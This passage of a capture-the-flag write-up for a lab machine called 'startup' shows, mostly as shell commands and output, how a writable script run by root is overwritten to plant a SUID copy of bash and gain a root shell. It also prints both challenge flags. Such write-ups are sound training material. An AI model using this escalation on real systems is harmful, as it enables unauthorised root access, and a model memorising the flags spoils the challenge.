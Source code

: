 ```bash
www-data@startup:/home$ su lennie
Password: 
lennie@startup:/home$
lennie@startup:/home$ cd lennie/
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt 
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

>>There is a script directory which as planner.sh that is the point to escalate our privilege as root.
>>This is the payload to do that 
"echo "cp /bin/bash /tmp && chmod +s /tmp/bash" > /etc/print.sh"
>>This will copy bash to the tmp directory and modify the permission then redirect to the print.sh file in the etc directory.

```bash
lennie@startup:~$ cd scripts/
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ cat startup_list.txt 

lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ echo "cp /bin/bash /tmp && chmod +s /tmp/bash" > /etc/print.sh
lennie@startup:~/scripts$ cd /tmp
lennie@startup:/tmp$ ls
bash
lennie@startup:/tmp$ bash -p
lennie@startup:/tmp$ ls
bash
lennie@startup:/tmp$ ls -la
total 1044
drwxrwxrwt  7 root root    4096 Jan  7 14:39 .
drwxr-xr-x 25 root root    4096 Jan  7 13:44 ..
-rwsr-sr-x  1 root root 1037528 Jan  7 14:39 bash
drwxrwxrwt  2 root root    4096 Jan  7 13:43 .font-unix
drwxrwxrwt  2 root root    4096 Jan  7 13:43 .ICE-unix
drwxrwxrwt  2 root root    4096 Jan  7 13:43 .Test-unix
drwxrwxrwt  2 root root    4096 Jan  7 13:43 .X11-unix
drwxrwxrwt  2 root root    4096 Jan  7 13:43 .XIM-unix
lennie@startup:/tmp$ cd ~/scripts
lennie@startup:~/scripts$ /tmp/bash -p
bash-4.3# cd /root
bash-4.3# ls
root.txt
bash-4.3# cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}

```
----
